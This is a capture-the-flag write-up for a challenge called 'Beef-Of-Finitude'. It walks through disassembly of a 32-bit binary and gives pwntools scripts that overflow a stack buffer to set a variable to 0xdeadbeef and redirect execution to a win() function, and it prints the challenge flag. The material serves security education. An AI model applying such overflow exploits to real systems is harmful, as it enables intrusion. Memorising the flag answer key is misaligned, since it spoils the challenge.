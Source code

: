 # Challenge Name: Beef-Of-Finitude

To start off, we see a main function which calls function myFun.
Let's disass function myFun:
```
   0x08049364 <+22>:	mov    DWORD PTR [ebp-0xc],0x7
   0x0804936b <+29>:	sub    esp,0xc
   0x0804936e <+32>:	lea    eax,[ebx-0x1f78]
   0x08049374 <+38>:	push   eax
   0x08049375 <+39>:	call   0x80490d0 <puts@plt>
   0x0804937a <+44>:	add    esp,0x10
   0x0804937d <+47>:	mov    eax,DWORD PTR [ebx-0x8]
   0x08049383 <+53>:	mov    eax,DWORD PTR [eax]
   0x08049385 <+55>:	sub    esp,0x4
   0x08049388 <+58>:	push   eax
   0x08049389 <+59>:	push   0x10
   0x0804938b <+61>:	lea    eax,[ebp-0x1c]
   0x0804938e <+64>:	push   eax
   0x0804938f <+65>:	call   0x80490c0 <fgets@plt>
   0x08049394 <+70>:	add    esp,0x10
   0x08049397 <+73>:	sub    esp,0xc
   0x0804939a <+76>:	lea    eax,[ebx-0x1f66]
   0x080493a0 <+82>:	push   eax
   0x080493a1 <+83>:	call   0x80490d0 <puts@plt>
   0x080493a6 <+88>:	add    esp,0x10
   0x080493a9 <+91>:	mov    eax,DWORD PTR [ebx-0x8]
   0x080493af <+97>:	mov    eax,DWORD PTR [eax]
   0x080493b1 <+99>:	sub    esp,0x4
   0x080493b4 <+102>:	push   eax
   0x080493b5 <+103>:	push   0x150
   0x080493ba <+108>:	lea    eax,[ebp-0x26]
   0x080493bd <+111>:	push   eax
   0x080493be <+112>:	call   0x80490c0 <fgets@plt>
   0x080493c3 <+117>:	add    esp,0x10
   0x080493c6 <+120>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x080493cd <+127>:	jne    0x80493ed <myFun+159>
   0x080493cf <+129>:	mov    DWORD PTR [ebx+0x34],0x1
   0x080493d9 <+139>:	sub    esp,0xc
   0x080493dc <+142>:	lea    eax,[ebx-0x1f50]
   0x080493e2 <+148>:	push   eax
   0x080493e3 <+149>:	call   0x80490d0 <puts@plt>
   0x080493e8 <+154>:	add    esp,0x10
   0x080493eb <+157>:	jmp    0x80493ff <myFun+177>
   0x080493ed <+159>:	sub    esp,0xc
   0x080493f0 <+162>:	lea    eax,[ebx-0x1f10]
   0x080493f6 <+168>:	push   eax
   0x080493f7 <+169>:	call   0x80490d0 <puts@plt>
   0x080493fc <+174>:	add    esp,0x10
```   
This functions takes in two inputs (strings), one as name and the other as password. 
An initial variable say var is defined and is equal to 7. i.e var = 0x7 as seen from line 22 in myFun.
The first input and second inputs are 16 bytes long, however, if we look at line 103, we can see a 'push 0x150' command, which suggests that though the size for second input is 16 bytes, its taking 0x150 in total. 
This would mean that there is a chance to overflow the buffer to proceed to line 120, where the var value is compared with 0xdeadbeef and as we know var is stored at ebp-0xc as seen from line 22. 
Hence to satisfy the condition, we need to overflow the password in a way so that, var = 0xdeadbeef. To do that we may use the following code:
```
from pwn import *
r = remote('challenges.ctfd.io', 30027)

r.recvuntil('Enter your Name:')
r.sendline('shravya')

r.recvuntil('Enter your password:')
r.send('B'*26 + p32(0xdeadbeef))
r.interactive()
```
Till here we have just overflown the buffer. This allows us into the shell but however to get the flag we may have to call the win() function. 
The gdb dump for the win() function is:
```
   0x08049240 <+10>:	sub    esp,0x12c                                            ; the stack size defined for win function is 0x12c or 300 bytes, whereas that for password input of myFun was 336 bytes. 
   0x08049246 <+16>:	call   0x8049170 <__x86.get_pc_thunk.bx>                    ; which implies that we can overflow the buffer into yet another function, i.e the win() function. To do so, we will first have to fill the above stack with 336-300 = 36 bytes, since the win function accpets 4 arguments, 
   0x0804924b <+21>:	add    ebx,0x2db5                                           ; 
   0x08049251 <+27>:	mov    ecx,DWORD PTR [ebp+0x8]                              ; the following lines determine the 4 arguments to the win() function,
   0x08049254 <+30>:	mov    DWORD PTR [ebp-0x130],ecx                            ; if ((((param_2 | param_1 ^ 0x14b4da55) == 0) && ((param_3 ^ 0x67616c66 | param_4) == 0)))
   0x0804925a <+36>:	mov    ecx,DWORD PTR [ebp+0xc]                              ; thus param_2 = 0; param_1 = 0x14b4da55 and param_3 = 0; param_4 = 0x67616c66
   0x0804925d <+39>:	mov    DWORD PTR [ebp-0x12c],ecx                            
   0x08049263 <+45>:	mov    ecx,DWORD PTR [ebp+0x10]
   0x08049266 <+48>:	mov    DWORD PTR [ebp-0x138],ecx
   0x0804926c <+54>:	mov    ecx,DWORD PTR [ebp+0x14]
   0x0804926f <+57>:	mov    DWORD PTR [ebp-0x134],ecx
   0x08049275 <+63>:	mov    ecx,DWORD PTR [ebp-0x130]
   0x0804927b <+69>:	xor    ecx,0x14b4da55
   0x08049281 <+75>:	mov    esi,ecx
   0x08049283 <+77>:	mov    ecx,DWORD PTR [ebp-0x12c]
   0x08049289 <+83>:	xor    ch,0x0
   0x0804928c <+86>:	mov    edi,ecx
   0x0804928e <+88>:	mov    ecx,edi
   0x08049290 <+90>:	or     ecx,esi
   0x08049292 <+92>:	test   ecx,ecx
   0x08049294 <+94>:	jne    0x80492c0 <win+138>
   0x08049296 <+96>:	mov    ecx,DWORD PTR [ebp-0x138]
   0x0804929c <+102>:	xor    ecx,0x67616c66
 ```  
   Thus in order to overflow the buffer at the password, and to call the win() function once the right value is compared at ebp-0xc register, we willnhave to:
      - rewrite ebp-0xc with p32(0xdeadbeef) since that is what it is compared with,
      - rewrite the return address stored at eip to that of the win function, 
      - pass arguments of win function, i.e 
   param_1 = p32(0x14b4da55), param_2 = p32(0x0), param_3 = p32(0x67616c66), param_4 = p32(0x0)
   
   ## python program : (cotinuation)
   ```
   from pwn import *
   r = remote('challenges.ctfd.io', 30027)

   r.recvuntil('Enter your Name:')
   r.sendline('hi')

   r.recvuntil('Enter your password:')
   r.sendline('B'*26 + p32(0xdeadbeef) + 'B'*12 + p32(0x0804923a) + p32(0x0804923a) + p32(0x14b4da55) + p32(0x0) + p32(0x67616c66) + p32(0x0))

   r.interactive()
   ```
   ## Flag:
   ```UDCTF{0bl1g4t0ry_buff3r_ov3rflow}```
